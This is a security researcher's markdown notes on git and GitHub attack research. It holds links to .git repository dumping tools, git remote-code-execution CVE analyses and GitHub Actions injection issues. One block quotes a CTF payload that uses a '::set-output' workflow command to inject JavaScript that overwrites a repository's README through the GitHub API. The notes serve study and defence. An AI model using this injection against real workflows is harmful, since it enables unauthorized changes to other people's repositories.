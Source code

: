 https://stackoverflow.com/questions/2928584/how-to-grep-search-committed-code-in-the-git-history

# dump public repository from site

- [GitHub \- internetwache/GitTools: A repository with 3 tools for pwn&\#39;ing websites with \.git repositories available](https://github.com/internetwache/GitTools)
- [GitHub \- arthaud/git\-dumper: A tool to dump a git repository from a website](https://github.com/arthaud/git-dumper)

# case studies

- [shell: disallow repo names beginning with dash](https://git.kernel.org/pub/scm/git/git.git/commit/?id=3ec804490a265f4c418a321428c12f3f18b7eff5)
- https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/
- https://medium.com/@knownsec404team/analysis-of-cve-2019-11229-from-git-config-to-rce-32c217727baa

- [GitHub \- newren/git\-filter\-repo: Quickly rewrite git repository history \(filter\-branch replacement\)](https://github.com/newren/git-filter-repo)
- [GitHub \- Kayvlim/badrepo: Don&\#39;t clone this on a Mac\. Test repository to play around with glitches](https://github.com/Kayvlim/badrepo)
    - issues on `git status` under macos: different results when run twice: either no changes, or one of the files has been modified, or one of the files has been deleted...
        - Feb 10, 2015
    - https://twitter.com/kayvlim/status/565234659081338881
        > Create two files in a #git repository with equal names, but differing a letter: á = U+00E1; á = U+0061 U+0301. Clone on a mac. #UnicodeHell
    - ~/code/guides/sysadmin/badrepo

### github

- Workflow command processing from stdout payload triggers SSTI
    - [GitHub Capture the Flag results \- The GitHub Blog](https://github.blog/2021-03-22-github-ctf-results/)
    ```
    Given workflow steps containing:

    script: |
        console.log(process.env.COMMENT_BODY)
    script: |
        const id = ${{ steps.comment_log.outputs.COMMENT_ID }} // line 30

    Then post comment with payload:

    ::set-output name=COMMENT_ID::1; console.log(context); console.log(process); await github.request('PUT /repos/{owner}/{repo}/contents/{path}', { owner: 'incrediblysecureinc', repo: 'incredibly-secure-Creastery', path: 'README.md', message: 'Escalated to Read-write Access', content: Buffer.from('Pwned!').toString('base64'), sha: '959c46eb0fbab9ab5b5bfb279ab6d70f720d1207' })
    ```
- [Issue 2070: Github: Widespread injection vulnerabilities in Actions](https://bugs.chromium.org/p/project-zero/issues/detail?id=2070)
- https://devcraft.io/2020/10/20/github-pages-multiple-rces-via-kramdown-config.html
- https://devcraft.io/2020/10/19/github-gist-account-takeover.html
